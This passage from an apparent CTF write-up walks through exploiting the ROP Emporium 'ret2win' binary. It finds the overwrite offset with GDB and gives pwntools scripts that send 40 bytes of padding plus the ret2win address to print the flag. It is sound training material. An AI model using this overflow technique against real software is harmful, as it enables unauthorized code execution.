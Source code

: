 The important register is the stack pointer _$rsp._ Now still GDB and doing a pattern search for the string in _$rsp_ GEF will display the offset at which we control the register.

![GDB Debugging](assets/images/posts/2019/08/ropemporium-0-ret2win/image-5.png)

The other notable thing from the GDB output is that we are required to input data after "\> ". Both of these two pieces of data will be used in the exploit.

```python
# -- Exploit goes here --
junk = 'A'*40+'BBBBBBBB' #junk with the offset in order to overwrite RIP

payload = junk #Payload that will be sent to the binary

io = start()
io.recvuntil('> ') #pwn function "Recieve data until symbol"
io.sendline(payload) #send object ending with a carriage return
io.interactive()
```
This code will consistently crash the ret2win binary and running it with `./exploit.py LOCAL GDB` will attach a GDB session showing that $RSP is overwritten with _8\*B._  

![GDB Debugging](assets/images/posts/2019/08/ropemporium-0-ret2win/image-6.png)

### Ret2Win
Having the program crash is all fun and games, but we want that flag!

now since ROP is exploiting using library or binary "gadgets" we have to replace those _8\*B_ with a valid address to a function. Since we got that hint to use the ret2win (0x00400811) function &nbsp;from ROPEmporium, lets do that.
```python
# -- Exploit goes here --
junk = 'A'*40 #junk with the offset in order to overwrite RIP
ret2win = p64(0x00400811) #gadget which executes /bin/cat flag.txt

payload = junk #Payload that will be sent to the binary
payload += ret2win

io = start()
io.recvuntil('> ') #pwn function "Recieve data until symbol"
io.sendline(payload) #send object ending with a carriage return
io.interactive()
```
Running the exploit locally again results in a flag being printed to us!
